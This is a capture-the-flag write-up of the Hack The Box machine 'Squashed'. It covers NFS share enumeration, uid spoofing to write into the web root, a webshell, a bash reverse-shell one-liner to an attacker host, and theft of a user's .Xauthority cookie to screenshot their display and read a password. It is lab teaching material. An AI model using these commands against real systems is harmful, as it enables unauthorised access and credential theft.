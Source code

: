 ```yaml
---
description: https://app.hackthebox.com/machines/514
---
```


# Squashed

**Difficulty: **<mark style="color:green;">**EASY**</mark>

## Recon

### Nmap

```java
# Nmap 7.92 scan initiated Sun Dec  4 12:53:55 2022 as: nmap -p22,80,111,2049,8000,46395,52769,56161,58987 -sCV -oN targeted 10.10.11.191
Nmap scan report for 10.10.11.191
Host is up (0.079s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      46137/udp   mountd
|   100005  1,2,3      56161/tcp   mountd
|   100005  1,2,3      57757/tcp6  mountd
|   100005  1,2,3      60560/udp6  mountd
|   100021  1,3,4      36327/tcp6  nlockmgr
|   100021  1,3,4      38370/udp   nlockmgr
|   100021  1,3,4      38479/udp6  nlockmgr
|   100021  1,3,4      46395/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8000/tcp  open  http     SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
46395/tcp open  nlockmgr 1-4 (RPC #100021)
52769/tcp open  mountd   1-3 (RPC #100005)
56161/tcp open  mountd   1-3 (RPC #100005)
58987/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  4 12:54:06 2022 -- 1 IP address (1 host up) scanned in 11.60 seconds

```

### Web Page

I start with port 80, nothing too much interesting. You can try to use feroxbuster, gobuster, dirsearch whatever tool you like.

<figure><img src="../../../../.gitbook/assets/web1.png" alt=""><figcaption></figcaption></figure>

## NFS TCP - 2049

Starting to exploit the port 2049 using the following:

```
showmount -e <ip>
```

<figure><img src="../../../../.gitbook/assets/nfs1.png" alt=""><figcaption></figcaption></figure>



This will export you what folders are been shared, if you don't about NFS, is like the SMB of Linux. The NFS protocol **has no mechanism for authentication or authorization.** We can try to see what is inside of these folders without credentials.

You can use a program called **nfsshell** to enumerate more quickly.

{% embed url="https://github.com/NetDirect/nfsshell" %}

Downloaded and do a **make** to compile the program. You can play with it but I will do it manually to explain better what am doing **; )**. Now the folder that is juicy here to gain access to the machine is the **/var/www/html folder.** The **/home/ross** is juicy too, but we are not going to used.

<figure><img src="../../../../.gitbook/assets/perm2.png" alt=""><figcaption></figcaption></figure>

Ok, here we have that we don't have permission to get into the remote folder. Why this happend? Well, if we see the permissions in the folder is in the group **www-data** so I will need a user with the same **group(uid=33)** to get in and see what we have**. Follow the next steps.**

### Create a user, assign the group and get a shell as the user

```
useradd test
sudo usermod -u 2017 test
su test -c bash
```

<figure><img src="../../../../.gitbook/assets/perm.png" alt=""><figcaption></figcaption></figure>

## Exploitation

So, we get into **/var/www/html** folder remotely. Let's try to **make a file with malicious code** and see if we can get a shell.

<figure><img src="../../../../.gitbook/assets/exploit1.png" alt=""><figcaption></figcaption></figure>

Let's see if we see it on the web.

<figure><img src="../../../../.gitbook/assets/webexp1 (2).png" alt=""><figcaption></figcaption></figure>

Great! Now we upload a **webshell** to get access. Listen with **netcat** to get the shell.

<figure><img src="../../../../.gitbook/assets/shell.png" alt=""><figcaption></figcaption></figure>

Now get the reverse shell using the following command:

```
bash -c 'bash -i >%26 /dev/tcp/<attacker-ip>/<port> 0>%261'
```

<figure><img src="../../../../.gitbook/assets/webshell2 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/websell2.png" alt=""><figcaption></figcaption></figure>

We have gained access as user **alex** in the system.

## Privesc

Remember that we have the **/home/ross** folder too. Well, let's try to enumerate what's inside. I will use **nfsshell** to vary.

<figure><img src="../../../../.gitbook/assets/nsfshellx.png" alt=""><figcaption></figcaption></figure>

Here i get an interesting file called **.Xauthority.**

#### What is .Xauthority?

The **.Xauthority** file can be found in each user's home directory. It is **used to store credentials in cookies used by xauth for authentication of XServer**. When an XServer instance (Xorg) is started, the cookie is used to authenticate connections to that specific display.

Knowing that you can **research information** about it in **hacktrickz**:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#enumeration" %}

To exploit it I do a check with the command **"w"** to see what **active sessions** I get. The user **ross** haves an active session and we have the **.Xauthority** token to do things with his display. So upload the .**Xauthority** file to the machine and pass the file with a **PATH** variable to **xdpyinfo**.

```
XAUTHORITY=/tmp/.Xauthority xdpyinfo -display :0
```

<figure><img src="../../../../.gitbook/assets/privesc1.png" alt=""><figcaption></figcaption></figure>

We can do the same using **xwininfo**:

<figure><img src="../../../../.gitbook/assets/privesc2.png" alt=""><figcaption></figcaption></figure>

Now we do the following command to take a **screenshot** from the **ross** display.&#x20;

```
xwd -root -screen -silent -display :0 > screenshot.xwd
```

<figure><img src="../../../../.gitbook/assets/privesc4 (2).png" alt=""><figcaption></figcaption></figure>

Now open a **Python Server** on the machine and **export the screenshot.** Use **convert** command to convert the image from **xwd** and **png**.

<figure><img src="../../../../.gitbook/assets/privesc5 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/keepass (1).png" alt=""><figcaption><p>Screenshot from user ross</p></figcaption></figure>

Use this credential to authenticate with ssh and get root access.

<figure><img src="../../../../.gitbook/assets/privesc6 (1).png" alt=""><figcaption></figcaption></figure>

**Rooted !! : }**
